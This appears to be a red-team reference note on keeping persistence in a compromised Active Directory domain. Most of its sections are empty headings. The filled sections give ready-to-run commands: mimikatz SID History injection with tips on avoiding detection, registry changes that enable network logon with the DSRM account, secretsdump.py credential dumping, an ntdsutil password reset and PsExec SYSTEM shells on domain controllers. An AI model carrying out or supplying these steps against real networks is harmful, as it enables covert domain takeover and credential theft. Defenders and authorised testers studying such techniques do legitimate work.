 # Active Directory - Persistence

### Kerberos "golden" / "silver" tickets

### SID History

The access to securable resources, that is resources that define a `security
descriptor`, is based on the `security principal`'s (user for example) `SID`,
eventual extra `SIDs`, and `security group SIDs`. Indeed, these `SIDs` are
compared to the access rights defined in the `Access Control Entries (ACEs)` of
the accessed object's `Discretionary Access Control List (DACL)`.

Adding a privileged `SID`, such as the one of the built-in domain Administrator
account (`SID` `S-1-5-21-<DOMAIN>-500`), in the `SID History` of a non
privileged user can thus be leveraged to maintain persistence in the domain
through a seemingly standard user. In order to avoid detection, a non built-in
user (`RID` > 1000) member of a privileged group (`Enterprise Admins`, `Domain
Admins`, `Administrators`, etc.) may be preferred. The persistence will be
operational until the impersonated user is deleted or removed from the
privileged group(s).

The modification of the `SIDHistory` attribute requires privileges granted to
the `Domain Admins` group and must be conducted on a Domain Controller as
the `ntds` service must be locally patched. While the `SID History`
modification will persist, the `ntds` patch will not be persistent across
reboot of the Domain Controller.

`mimikatz` can be used to add `SIDs` in the `SIDHistory` attribute of any users
of the current domain (the following commands must be executed directly on a
Domain Controller):

```
# If necessary, elevate privileges to "NT AUTHORITY\SYSTEM" and enables the "SeDebugPrivilege" privilege.
mimikatz # token::elevate
mimikatz # privilege::debug

# Patches the ntds service.
# Only the first patch ("Patch 1/2 ntds service patched") is required for the attack (the second patch may rise an error, such as "ERROR kull_m_patch_genericProcessOrServiceFromBuild", with out incidence).
mimikatz # sid::patch

# Adds the given SID in the SIDHistory attribute of the specified user.
# For example, S-1-5-21-<DOMAIN>-500 for built-in domain Administrator account.
mimikatz # sid::add /sam:<SAMACCOUNTNAME> /new:<S-1-5-21-<FOREST_DOMAIN>-519 | EXTRA_SID>

# Validates that the SID was correctly added.
# IDENTITY: SamAccountName, user Distinguished Name (DN), SID or GUID.
Get-ADUser <IDENTITY> -Properties SIDHistory
```

### Skeleton key

### PrimaryGroupID

### AdminSDHolder ACL

### Directory Services Restore Mode account

The `Directory Services Restore Mode (DSRM)` account correspond to the local
built-in `Administrator` (username language dependent name, `SID`
`S-1-5-21-<DC_SPECIFIC>-500`) of a Domain Controller. The `DRSM` account
password is specific to each Domain Controller and is setup during the Domain
Controller promulgation. The `DRSM` accounts are local to each Domain
Controller and have no link with the built-in `Administrator` (`SID`
`S-1-5-21-<DOMAIN>-500`) of the domain.    

Note that since `Windows Server 2008` (`KB961320`), the `DSRM` account password
can be one-time synchronized with a domain account (further synchronization are
however not automated and must be done manually).

The usage of the `DSRM` account is controlled by the `DsrmAdminLogonBehavior`
registry key:

| Value | Description |
|-------|-------------|
| `0x0` <br><br> `Undefined` | The `DSRM` account can only be used if the Domain Controller is booted in `DSRM`. <br><br> `bcdedit /set safeboot dsrepair` <br> `shutdown /r /f /t 5` |
| `0x1` | The `DSRM` account can login on the Domain Controller if the `Active Directory Domain Service (AD DS)` of the Domain Controller are (locally) stopped. |
| `0x2` | The `DSRM` account can login with out any restriction. |

By default, the `DsrmAdminLogonBehavior` key is undefined (and thus the `DSRM`
account can only be used to connect to the Domain Controller if it has been
restarted in `DSRM`).

To maintain persistence after a compromise of an Active Directory domain, the
local built-in `Administrator` password of a Domain Controller can be retrieved
(or set) and the `DsrmAdminLogonBehavior` of the Domain Controller set to
`0x2`. The `DSRM` account will be usable over the network even if the Domain
Controller is not started in `DSRM` and persistence maintained until its
password is renewed. In this scenario, the `DSRM` account can notably be used
to remotely connect to the Domain Controller or conduct replication operations
(`DCSync` attack).  

The following commands can be used to retrieve and set the value of the
`DsrmAdminLogonBehavior` registry key (on a Domain Controller):

```
# Retrieves the current value of the DsrmAdminLogonBehavior registry key.
reg query "HKLM\System\CurrentControlSet\Control\Lsa\" /v "DsrmAdminLogonBehavior"
Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -Name "DsrmAdminLogonBehavior"

# Creates and sets the value of the DsrmAdminLogonBehavior registry key to the specified value.
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t "REG_DWORD" /d "<2 | VALUE>"
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -PropertyType DWORD -Value <2 | VALUE>

# Overrides the value of the DsrmAdminLogonBehavior registry key to the specified value (if the key already exists).
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /f /v "DsrmAdminLogonBehavior" /t "REG_DWORD" /d "<2 | VALUE>"
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value "<2 | VALUE>"
```

The following techniques can be used to retrieve or set the `DRSM` account
password:

```
# Remote extraction of the DRSM account (full dump of the local accounts stored in the SAM registry hive).
# For more information and techniques on how to retrieve the local Administrator NTLM hash from the SAM database, refer to the "[Windows] Post Exploitation" note.
secretsdump.py '<DOMAIN>/<USERNAME>[:<PASSWORD>]@<DC_HOSTNAME | DC_IP>'

# While not recommended from an opsec standpoint, the DRSM account password can also be reset (with out requiring knowledge of the current password).
ntdsutil
> set dsrm password
# "null" if the commands are executed locally on the Domain Controller of which the DRSM account password should be updated, its hostname otherwise.
> reset password on server <null | DC_HOSTNAME>
> <NEW_DRSM_PASSWORD>
> <NEW_DRSM_PASSWORD>
```

If the `DsrmAdminLogonBehavior` key of the targeted Domain Controller is set to
`0x2`, remote code execution or replication operations can be conducted using
the `DRSM` account:

```
# Refer to the "[ActiveDirectory] ntds.dit dumping" for more techniques to extract the secrets from the ntds.dit database.
secretsdump.py '<DC_HOSTNAME>/<Administrator | DRSM_ACCOUNT>:<DSRM_PASSWORD>@<DC_HOSTNAME | DC_IP>'
secretsdump.py -hashes <:DSRM_NTLM_HASH> '<DC_HOSTNAME>/<Administrator | DRSM_ACCOUNT>@<DC_HOSTNAME | DC_IP>'

# The DRSM account can be used through any authentication types (network logon, remote interactive logon, etc.).
# Refer to the "[Windows] Lateral movements" note for more techniques to remotely execute code on the targeted Domain Controller (through PsExec-like tools, WMI, WinRM, RDP, etc.).
PsExec.exe -accepteula \\<DC_HOSTNAME | DC_IP> -u "<DC_HOSTNAME>/<Administrator | DRSM_ACCOUNT>" -p "<DRSM_PASSWORD>" -s <cmd.exe | %ComSpec% | powershell.exe>
```

### Domain Controller local persistence

### Kerberos delegations

### Certificates (`User-Principal-Name` or `Alt-Security-Identities`)
